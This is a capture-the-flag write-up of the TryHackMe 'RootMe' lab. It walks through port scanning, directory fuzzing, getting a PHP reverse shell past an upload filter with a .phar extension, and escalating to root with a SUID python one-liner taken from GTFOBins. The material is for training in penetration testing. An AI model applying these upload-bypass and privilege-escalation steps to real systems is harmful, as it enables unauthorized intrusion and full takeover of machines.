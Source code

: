 ```yaml
---
title: TryHackMe | RootMe
author: Zeropio
date: 2022-09-26
categories: [Pentesting, TryHackMe]
tags: [thm, linux]
permalink: /pentesting/tryhackme/rootme
---
```



# Foothold

The nmap show:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We some some CVE assigned to that Apache version. Fuzzing the web we found:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'http://10.10.179.194/FUZZ'

	css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 112ms]
	js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 284ms]
	uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 111ms]
	panel                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 106ms]
	server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 103ms]
	                        [Status: 200, Size: 616, Words: 115, Lines: 26, Duration: 105ms
```

Inside of `/uplaods/` we found a empty directory. In `/panel/` we can see that we can upload some files. Let’s try with the default pentestmonkey reverse shell.

---

# Fingerprint

Upload the shell to the target and we got the following error:

![Untitled](/assets/img/tryhackme/rooms/rootme/Untitled.png)

Let’s try finding what type of file accepts. Uploading `shell.php3`{: .filepath} allow us. Now we can see the file in the `/uploads/` path. Start a netcat and connect to it. We first see that our file didn’t executed.

Trying with `shell.phar`{: .filepath} will work.

---

# Privilege Escalation

We will search for SUID, finding one particular binary:

```console
bash-4.4$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

	-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
```

We will use [GTFObins](https://gtfobins.github.io/gtfobins/python/#suid) to get the explotation:

```console
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
	root
```